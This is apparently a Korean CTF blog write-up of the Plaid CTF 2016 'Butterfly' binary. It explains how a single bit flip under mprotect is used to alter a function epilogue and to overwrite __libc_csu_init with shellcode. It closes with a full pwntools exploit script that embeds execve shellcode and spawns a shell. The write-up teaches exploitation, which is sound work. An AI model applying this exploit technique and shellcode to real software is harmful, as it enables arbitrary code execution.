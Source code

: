 ```yaml
---
layout: post
title: "PCTF 2016 - Butterfly"
date: 2017-11-16 +0900
author: "JaeHyuk Lim"
categories: [write-up]
tags: [ctf, pwn, exploit]
---
```

## I. 개요
 사실 얼마전부터 후이즈 블로그를 개설하게 되면서, 문제를 하나씩 풀어보면서 마크다운, 깃허브io 사용법을 익힐겸, 라이트업을 작성하기로 결정했다.<br />
 그에 대한 첫 번째 라이트업은 바로 Plaid CTF 2016의 Butterfly라는 문제!!<br />
 일단 문제 자체가 어렵거나 그런건 아니지만, 참신하게 접근할 수 있어서 작성해본다.<br />

## II. 바이너리 분석 
  바이너리는 크게 어려운 것은 없다, 일단 다음 코드를 살펴보도록 하자.<br />
  ```C
  v11 = *MK_FP(__FS__, 40LL);
  setbuf(_bss_start, 0LL);
  puts("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?");
  v3 = 1;
  if ( fgets(&v10, 50, stdin) )
  {
    v4 = strtol(&v10, 0LL, 0);
    v5 = v4;
    v6 = (_BYTE *)(v4 >> 3);
    v7 = (void *)((v4 >> 3) & 0xFFFFFFFFFFFFF000LL);
    if ( mprotect(v7, 0x1000uLL, 7) )
    {
      perror("mprotect1");
    }
    else
    {
      v3 = 1;
      *v6 ^= 1 << (v5 & 7);
      if ( mprotect(v7, 0x1000uLL, 5) )
      {
        perror("mprotect2");
      }
      else
      {
        puts("WAS IT WORTH IT???");
        v3 = 0;
      }
    }
  }
  v8 = *MK_FP(__FS__, 40LL);
  if ( *MK_FP(__FS__, 40LL) == v11 )
    LODWORD(v8) = v3;
  return v8;
}
  ```

  어렵다기보다는 그냥 왜이렇게 코드가 짧음? 이라는 소리가 먼저나오는 코드이다.<br />
  일단, 프로그램의 흐름은 입력값을 fgets로 받고(그렇기 때문에 NULL바이트도 넣을 수 있다. 기억해둘 것) 이 값을 strtol()함수로 문자열을 정수로 바꾸는데, 이 함수는 뒤에 아무리 많은 문자열이 존재하더라도 숫자형태의 문자들만 정수형으로 치환해주기 때문에 뒤에는 값이 더들어갈 수 있다.<br />
  그리고 그렇게 바뀐 주소는 마지막 3비트가 Right Shift되고, 그 결과값을 기준으로 rwx(0x7) 권한으로 mprotect로 권한이 제어된다.<br />
  여기서 우리가 알아야할 점이 하나 있는데, <br />
  여기서 사용되는 마지막 3비트는 이후 1바이트를 xor하는데에 사용된다는 것을 명심해야 한다. <br />
  ```C
      v3 = 1;
      *v6 ^= 1 << (v5 & 7);
  ```
  이 부분을 보면 알 수 있듯이, 이전에 Right Shift를 해주었던 3비트는 7(0b111)을 AND연산해줌으로써 구할 수 있고, 이렇게 구해준 마지막 3비트가 1을 Left Shift를 해주는데 사용된다. 즉, 우리는 어떤 위치의 값을 바꾸어줄때 다음과 같은 연산을 할 수 있다는 뜻이 된다.<br /><br />

  만약 다음과 같은 비트열이 있다고 해보자.
  ```Python
  bin(ord('A')) == 0b1000001
  ```
  우리는 이 값을 소문자 'a'로 바꾸고 싶은 상황이다. 그렇다면 다음과 같이 바꿔줄 수 있다.<br />
  먼저 소문자 'a'를 바이너리로 나타내보자.<br />
  ```Python
  bin(ord('a')) == 0b1100001
  ```

  차이점이라고는 6번째 비트가 1로 바뀌었다는 정도이다. 그렇다면 우리는 xor의 특성을 이용해서 다음과 같은 방법으로 bit flip을 해줄 수 있다<br />
  ```C
       v3 = 1;
      *v6 ^= 1 << (v5 & 7);
  ```
  해당 코드에서 0b1000001이 0b1100001이 되기 위해서는 0b0100000이 xor되어야 한다.<br />
  그렇다면 우리는 여기서 1이 5만큼 좌측으로 Shift되어야하는 것을 알고 있다.<br />
  이를 마지막 3비트에 채워서 보내면 내가 원하는 메모리에 있는 대문자 'A'를 'a'로 바꾸도록 만들 수 있다.<br />

  이제 대충 취약점이 어떤식으로 동작하는지 알았으니까 익스플로잇을 진행할 때다.<br />
  이 코드를 잘 보도록 하자.
  ```C
  if ( mprotect(v7, 0x1000uLL, 7) )
  ...
  if ( mprotect(v7, 0x1000uLL, 5) )
  ...

  ```

  해당 코드의 mprotect는 현재 할당된 메모리의 실행 권한을 변경해주는 함수인데, 실행 권한에는 다음과 같은 녀석들이 있다.<br />
  PROT_NONE, PROT_READ, PROT_WRITE, PROT_EXEC, PROT_SEM, PROT_SAO ...<br />
  나도 몰랐던 권한이 정말 많다. 이중에서 우리가 알아야하는 녀석들은 PROT_READ, PROT_WRITE, PROT_EXEC 이 세가지이다.<br />

  여기서 PROT_WRITE는 쓰기 권한, PROT_READ는 읽기 원한을 의미하며, PROT_EXEC는 실행 권한을 의미한다.<br />
  일반적으로 실행권한은 rwx로 표현하며, 이렇게 3가지 권한이 할당되었을 때는 7으로 표현한다. 2진수 단위를 생각하면 편하다.<br />
  그렇다면 5라는 권한은 어떻게될까? 당연히 r-x라는 권한이 되며 이는 5를 의미한다.<br />

  여기서 mprotect를 이용해서 굳이 메모리 영역을 7로 권한을 조절해준 후, 다시 5로 바꿔주는 이유는 무엇일까?<br />
  그 이유는 바로 이 문제의 공격 방법에 있다.<br />
  실제로 프로그램 코드도 실행중인 프로세스의 가상 메모리 영역에 할당되어서 사용이 된다. 그렇기 때문에 코드 영역도 권한만 바꾸어준다면 WRITE권한을 가질수도 있게 된다.


  ```
  .text:0000000000400860                 add     rsp, 48h
.text:0000000000400864                 pop     rbx
.text:0000000000400865                 pop     r14
.text:0000000000400867                 pop     r15
.text:0000000000400869                 pop     rbp
.text:000000000040086A                 retn
  ```

  이 부분은 main함수의 끝 부분에 위치한 함수 에필로그 영역이다. (FTZ나 LOB를 해봤으면 에필로그가 무엇인지는 안다고 가정한다.)<br />
  해당 영역에서는 add rsp, 0x48을 통해서 이전에 사용된 메모리 영역을 다시 복구해주고 있는데, 여기서 0x48에 해당하는 OpCode를 1바이트 해당 취약점으로 수정함으로써, retn 명령이 실행되는 시점의 rsp 포인터를 우리가 입력해준 데이터가 들어있는 메모리로 바꿔줄 수 있다.<br />

  그리고 쓰기 권한을 부여하는 것이기 때문에 기존에 존재하는 메모리 영역을 바꾸는 것도 가능하다.<br />
  예를들면 다음과 같다.<br /><br />

  ```C
  void __fastcall _libc_csu_init(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 v3; // r13@1
  __int64 v4; // rbx@1
  signed __int64 v5; // rbp@1

  v3 = a3;
  v4 = 0LL;
  v5 = &_do_global_dtors_aux_fini_array_entry - _frame_dummy_init_array_entry;
  init_proc();
  if ( v5 )
  {
    do
      ((void (__fastcall *)(_QWORD, __int64, __int64))_frame_dummy_init_array_entry[v4++])(a1, a2, v3);
    while ( v4 != v5 );
  }
}
  ```

  이 녀석은 _libc_csu_init이라는 함수인데, 프로그램이 시작해서 _start 함수로 진입하였을 때, main함수를 실행하기 이전에 처리해주는 함수 정도로 생각하면 되겠다. (정확한 역할은 나중에 설명하도록 하겠다.)<br />
  이 녀석도 쓰기권한이 기존에 없었을 뿐이지, 우리가 만약 mprotect로 실행권한을 바꿔준다면 해당 영역의 코드를 우리가 원하는 어셈블리로 패치하는 것도 가능해진다.<br />
  나는 이를 이용해서 해당 영역을 64bit ShellCode로 바꾸어주었고, Return Address를 해당 주소로 이동시켜서 쉘을 획득했다.<br />

  Exploit Code
  ```Python
  #!/usr/bin/python
from pwn import *

elf = ELF("./butterfly")
shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
with open("csu.bin", "rb") as f:
	csu = f.read()
csu_addr = elf.symbols['__libc_csu_init']

p = process("./butterfly")
print p.recvuntil("RAY?\n")

put = (0x400863 << 3) + 0x7
put1 = 33571614
payload = str(put1) + "A" * 32
payload += p64(0x400788)

put2 = (0x4007c5 << 3) + 0x1

p.sendline(payload)
print p.recvuntil("RAY?\n")

payload = str(put2) + "A" * 32
payload += p64(0x400788)
p.sendline(payload)
print p.recvuntil("RAY?\n")

for cnt in range(0, len(shell)):
    csu_byte = ord(csu[cnt])
    #print "[*] csu_bin : " + bin(csu_byte)
    shell_byte = ord(shell[cnt])
    #print "[*] shell_bin : " + bin(shell_byte)
    for i in range(8):
        bit_csu = csu_byte & (0x1 << i)
        if (bit_csu != (shell_byte & (0x1 << i))):
            payload = str(((csu_addr + cnt) << 3) | (i))
            payload += "A" * 32
            payload += p64(0x400788)
            p.sendline(payload)
            p.recvuntil("RAY?\n")

p.sendline("A" * 40 + p64(csu_addr))

p.interactive()
  ```